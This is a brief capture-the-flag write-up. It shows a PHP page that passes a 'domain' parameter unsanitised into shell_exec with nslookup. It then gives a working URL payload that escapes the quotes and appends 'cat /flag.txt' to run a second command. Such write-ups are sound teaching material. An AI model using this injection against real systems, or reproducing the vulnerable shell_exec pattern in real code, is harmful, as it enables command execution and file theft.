


# Solution

First take a look at source code
<br>
Hmm from my experience, the vuln appears in this code

```
if (isset($_GET['domain'])) {
    $domain = $_GET['domain'];
    $result = shell_exec("nslookup '$domain'");
}
```

We just need to escape single quote and add a payload to read flag.txt file

```
http://103.97.125.56:30997/index.php?domain=example.com%27;cat%20/flag.txt%27
```

Bonus: %27 === '

<br>
